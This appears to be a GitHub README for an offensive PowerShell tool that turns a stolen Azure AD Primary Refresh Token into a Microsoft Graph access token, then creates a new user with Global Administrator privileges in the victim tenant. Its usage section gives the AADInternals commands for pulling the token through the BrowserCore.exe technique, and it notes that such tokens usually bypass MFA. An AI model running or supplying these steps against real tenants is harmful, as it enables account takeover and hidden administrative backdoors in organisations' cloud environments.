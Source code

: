# PRTtoGA
PRTtoGA is a simple PS1 script for using Microsoft Graph Access Token (Usually not MFA enforced) to create a new user and set the user with Global admin privileges. 

##Usage

Get the appropriate Access Token using AADinternals (PASS THE PRT)
```
#Get the PRT using the BrowserCore.exe technique 
$prtToken = Get-AADIntUserPRTToken

#Get the AccessToken for MSGRAPH
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

```
**Then change the "$accessToken"variable to the received access Token. 
Dont forget to change the example.com to the tenants actual domain! **
